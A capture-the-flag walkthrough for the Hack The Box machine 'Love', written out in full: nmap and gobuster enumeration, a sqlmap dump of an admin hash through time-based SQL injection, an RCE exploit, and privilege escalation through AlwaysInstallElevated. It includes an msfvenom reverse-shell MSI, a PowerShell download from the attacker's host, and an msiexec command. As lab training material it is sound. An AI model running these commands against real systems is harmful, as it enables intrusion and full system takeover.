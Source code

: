 ```yaml
---
layout: post
title: Love
published: true
---
```


**Love is an easy machine from Hack The Box.**

### Enumeration

First step, as always, is to scan the target with `nmap`:

`nmap -sC -sV -oN enum/nmap -v -p- 10.10.10.239`

```
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)  ## PHP voting system
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp   open  msrpc        Microsoft Windows RPC                                ##
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn                        ## Nothing from nbtscan
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)      ## 403
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Issuer: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-01-18T14:00:16
| Not valid after:  2022-01-18T14:00:16
| MD5:   bff0 1add 5048 afc8 b3cf 7140 6e68 5ff6
|_SHA-1: 83ed 29c4 70f6 4036 a6f4 2d4d 4cf6 18a2 e9e4 96c2
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?
| fingerprint-strings: 
|   NULL, WMSRequest: 
|_    Host '10.10.14.22' is not allowed to connect to this MariaDB server
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp  open  unknown
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Issuer: commonName=LOVE
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-04-11T14:39:19
| Not valid after:  2024-04-10T14:39:19
| MD5:   d35a 2ba6 8ef4 7568 f99d d6f4 aaa2 03b5
|_SHA-1: 84ef d922 a70a 6d9d 82b8 5bb3 d04f 066b 12f8 6e73
|_ssl-date: 2021-07-02T13:25:42+00:00; +26m47s from scanner time.
| tls-alpn: 
|_  http/1.1
7680/tcp  open  pando-pub?
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.91%I=7%D=7/2%Time=60DF0CE0%P=x86_64-pc-linux-gnu%r(NUL
SF:L,4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.14\.22'\x20is\x20not\x20allowe
SF:d\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(WMSRequest,4A
SF:,"F\0\0\x01\xffj\x04Host\x20'10\.10\.14\.22'\x20is\x20not\x20allowed\x2
SF:0to\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows
```

A lot of open ports, but starting with the web servers is usually a safe bet.

![Pasted image 20210702075723](https://user-images.githubusercontent.com/60187707/128602650-334f21f7-db5e-4f00-906c-1548e6233898.png)

Port 80 is a "voting system". I can't get into the login but enumerating directories reveals some more options.

`gobuster dir -u http://10.10.10.239 -w /usr/share/wordlists/dirb/common.txt -o enum/gobuster.out`

### Exploitation

After looking at some of the available web pages, http://10.10.10.239/admin/includes/footer.php provides a hint about the CMS behind the website.

![Pasted image 20210714102248](https://user-images.githubusercontent.com/60187707/128603607-cdbd77ce-e2ba-4185-8742-3977c724225a.png)

Doing some googling turns up a possible [SQLi vulnerability](https://www.exploit-db.com/exploits/49817). I capture a login request in Burpsuite, save it, and pass that file to `sqlmap` to enumerate the DB.

`sqlmap --dbms=mysql --batch --level=1 --risk=3 -r voter.req -p voter --dump-all`

This being a time-based SQLi, it's an extremely slow process. There are a few different databases, but `votesystem` may be the one that I want. I'll only dump that one for the moment.

`sqlmap --dbms=mysql --batch --level=1 --risk=3 -r voter.req -p voter --dump votesystem`

```
+----+-----------------------------+----------+--------------------------------------------------------------+----------+-----------+------------+
| id | photo                       | lastname | password                                                     | username | firstname | created_on |
+----+-----------------------------+----------+--------------------------------------------------------------+----------+-----------+------------+
| 1  | facebook-profile-image.jpeg | Devierte | $2y$10$4E3VVe2PWlTMejquTmMD6.Og9RmmFN.K5A1n99kHNdQxHePutFjsC | admin    | Neovic    | 2018-04-02 |
+----+-----------------------------+----------+--------------------------------------------------------------+----------+-----------+------------+
```

After about 30 minutes, I've gotten an admin hash! In the course of searching for exploits, I also found an [authenticated RCE](https://www.exploit-db.com/exploits/49445) exploit. I wasn't able to crack the hash with `hashcat` or `john`, so I'll have to just use the hash to authenticate.

![Pasted image 20210714112518](https://user-images.githubusercontent.com/60187707/128603066-6a2717a5-2a1e-4e80-8144-fbae76fd4a47.png)

Trigger the exploit:

![Pasted image 20210714112434](https://user-images.githubusercontent.com/60187707/128603086-40d463d2-6545-47f7-b40d-7b2b7a0cb82c.png)

Catch the shell on my listener, and I have a shell on the target as `phoebe`:

![Pasted image 20210714112448](https://user-images.githubusercontent.com/60187707/128603106-0597ab46-12bb-40a2-ab4b-e09812404bab.png)

### Privilege Escalation

For priv esc on Windows, I like to use AonCyberLab's [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester). All it requires is the output from the Windows target's `systeminfo` copied into a file on my local machine.

The script can pull down the most recent Microsoft vulnerability database, so I'll do that first: `python windows-exploit-suggester.py --update`

Then run the script:

`python windows-exploit-suggester.py --database 2021-07-14-mssb.xls --systeminfo love-sysinfo.txt`

The script points out that the registry `AlwaysInstallElevated` is set to 1 for `HKCU`(current user) and `HKLM`(local machine). This should allow me to install `.msi` packages as `SYSTEM`.

I'll build a malicious `.msi` file containing a reverse shell with `msfvenom`:

`msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.14.22 lport=4444 -f msi > root.msi`

Download the file to the target with Powershell, after serving the file on my own web server: `powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.22/root.msi','root.msi')"`

And execute the file: `msiexec /quiet /qn /i root.msi`

![Pasted image 20210714121312](https://user-images.githubusercontent.com/60187707/128603535-c6302a4a-6ace-43cb-b419-229ce14fa31f.png)

Just like that, I have a second reverse shell as `NT AUTHORITY\SYSTEM`.

![Pasted image 20210714121354](https://user-images.githubusercontent.com/60187707/128603573-43030ba5-cf94-4e3c-a700-1a53e88a6e8b.png)







